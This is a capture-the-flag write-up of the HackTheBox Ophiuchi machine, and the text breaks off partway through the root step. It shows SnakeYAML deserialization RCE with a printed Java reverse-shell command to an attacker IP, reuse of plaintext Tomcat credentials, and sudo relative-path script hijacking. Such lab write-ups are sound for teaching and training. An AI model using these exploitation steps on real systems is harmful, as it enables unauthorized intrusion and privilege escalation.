 ```yaml
---
layout: post
title: HackTheBox Ophiuchi Write-up
---
```


<h2>Overview</h2>

Ophiuchi is a Medium-rated Hackthebox linux machine. I gain a foothold via yaml deserialization on a website's user input, allowing RCE and leading to a shell as the user tomcat. From there, exposed credentials allow a quick escalation to the user "admin". As admin, I discover I'm able to run a go script as superuser. The file loads scripts without specifying full filepaths, allowing script hijacking and command execution as root.

<h2>Initial Enumeration</h2>

Initial nmap enumeration reveals two ports open: SSH on port 22, and Apache Tomcat site on port 8080.

![image](https://user-images.githubusercontent.com/44827973/141241262-3409fed4-2bc0-47ef-9096-64f8af05ef93.png)

Heading over to port 8080 on a browser reveals an "Online YAML Parser":

![image](https://user-images.githubusercontent.com/44827973/141241523-217abe00-67cf-48a1-8c6f-5e6e8fa2ca59.png)

Testing some gibberish input and clicking parse, I get redirected to this security message:

![image](https://user-images.githubusercontent.com/44827973/141241584-ed9f2860-720c-4a9d-bca7-ee306f6a4d64.png)

Looking to find more clues, I look up the meaning of this unfamiliar word "Ophiuchi".

![image](https://user-images.githubusercontent.com/44827973/141242196-d6436a15-b45a-4b87-b2cb-1884505d54e5.png)

Conveniently, the first link shown when I search for "yaml exploit" returns a "SnakeYAML deserialization" blog entry.

![image](https://user-images.githubusercontent.com/44827973/141242358-9499465e-9c78-4bc2-a36b-c0ce616d1cff.png)

<h2>Exploiting SnakeYAML -> RCE</h2>

The blog author details a vulnerability in snakeyaml where, if user input is directly passed to a function, the application can be vulnerable to deserialization leading to RCE.
First on my local host I open an HTTP server, and then on the target website I test the payload provided by the blog.

![image](https://user-images.githubusercontent.com/44827973/141243558-c3d44771-864f-41d6-9e2e-8d4896256bec.png)
![image](https://user-images.githubusercontent.com/44827973/141243557-b5df5fcc-eed0-49bd-a661-e241da4b1e58.png)

The web server attempts to make contact with my host. Looks like the security message is either a trick or not up to date, as I can clearly get some form of execution going.

As explained by the blog, snake yaml can interpret Java class constructors in the yaml payload. Upon parsing the provided payload, snake YAML invokes ScriptEngineManager which as we can see attempted to access the "/META-INF/services/javax.script.ScriptEngineFactory" endpoint.

An exploit for this is provided in this github repo:
https://github.com/artsploit/yaml-payload

Upon parsing our yaml payload, the web server will look for the file "/META-INF/services/javax.script.ScriptEngineFactory" and read its contents. It will then attempt to execute the class file pointed to by this file. This exploit aims to abuse this by creation of a Java class file containing arbitrary commands which will force the web server to execute.

I created a folder tree similar to the exploit, in order for the server to locate the header file "javax.script.ScriptEngineFactory" and the class file containing the code I want executed. This is how it ends up looking:

![image](https://user-images.githubusercontent.com/44827973/141244440-6ec163f4-93c3-4d29-aefd-1128d5a6cf6b.png)

Within the javax.script.ScriptEngineFactory file, I specify the package and class I want executed, which will be my exploit.class within my snakeyaml directory:
`snakeyaml.exploit`

I copied the repo's .java file inside my package directory "snakeyaml", and make a modification of the comand to get a reverse shell. Note how I rename the package and class - Java classes need to be the same name as the filename.

![image](https://user-images.githubusercontent.com/44827973/141244687-06921bf0-9a95-4555-b60a-77fd952824ec.png)

Here is the reverse shell command I use:

```
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.6/443;cat <&5 | while read line; do $line 2>&5 >&5; done"});
```

After modifying, I compile it with "javac exploit.java".

I start a reverse shell listener with netcat.
When I execute my yaml payload again on the website, I get a hit on my HTTP server with response 200 (meaning OK - there were no errors in retrieving the files). I get a reverse shell as "tomcat".

![image](https://user-images.githubusercontent.com/44827973/141245175-f9ae8a04-98c7-4c1e-8cb3-a12dd562560a.png)
![image](https://user-images.githubusercontent.com/44827973/141245182-168a32f8-a457-40eb-bdd6-0887d379aa24.png)

<h2>tomcat -> admin</h2>

The first thing I do with a shell is to upgrade it to an interactive shell. I check if python or python3 is installed, and then run a python command to get an interactive shell.

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

For whatever reason, I kept getting EOL errors, so I spawned another shell on top and then ran the command without issues.

![image](https://user-images.githubusercontent.com/44827973/141444329-a0c66b06-80b1-42df-bd3d-4852dac9ec10.png)

Seeing as Apache Tomcat is installed on the machine, it's worth checking the tomcat-users file for credentials. I'm fortunate enough to find credentials for "admin".

The tomcat-users.xml file was found in /opt/tomcat/conf/tomcat-users.xml.

![image](https://user-images.githubusercontent.com/44827973/141444646-c7a13d92-7741-4162-bc57-4ea102b648fd.png)

The credentials found:
`admin:whythereisalimit`

I am able to use these creds to switch to admin user:

![image](https://user-images.githubusercontent.com/44827973/141444760-749aaa78-a94f-4bc3-b65a-10f690e2b446.png)

Now I am able to read user.txt:

![image](https://user-images.githubusercontent.com/44827973/141444778-97979345-7978-4bca-99ba-cd27b593b3e6.png)

<h2>admin -> root</h2>

"sudo -l" reveals one command I can run as root:

![image](https://user-images.githubusercontent.com/44827973/141444962-f00d087a-1957-483e-a7fc-c4fea04ba7d9.png)

It reveals I can run a go file as root. Although it might seem secure, as it only permits us to run this one file as root, we will soon find out.

Although I can't write to the target .go file, I can read it.

![image](https://user-images.githubusercontent.com/44827973/141445056-e35672a0-6335-461f-9414-8e52c6bb0c1a.png)

Here are it's contents.

![image](https://user-images.githubusercontent.com/44827973/141448208-677811c2-9208-4cf4-86ed-c758ddd77fc8.png)

I can see it references two files. The script appears to do the following:

1. read from "main.wasm"
2. check for what main.wasm returns
3. if it returns anything other than 1, "Not ready to deploy" is printed, and execution ends here.
4. if it reads 1, it prints "Ready to deploy", and executes "deploy.sh"

I check what privileges I have on main.wasm and deploy.sh files:

![image](https://user-images.githubusercontent.com/44827973/141447909-89eaef5b-8a5d-42c1-b174-2145653cf592.png)

I'm unable to write to either of these files. If I could simply replace deploy.sh and pass the check in step 2 I could have anything I want executed, but I can't. How else could I exploit this script's behaviour?

<h2>Script Hijacking</h2>

A common vulnerability arises when scripts that are executed without their full filepath specified. As you can see in index.go, the script handles two file inputs which do not have full filepath specified:

1. "main.wasm", which appears to be read by the script, and
2. "deploy.sh", which is executed by the script.

They developer who wrote this script obviously intended for these files to be read from the same directory containing index.go. but if I were to run index.go from another location, it would look inside that location for these files. If I create my own main.wasm and deploy.sh in a directory I have write permissions, and execute the sudo command from that location, I could "hijack" index.go with my own scripts.




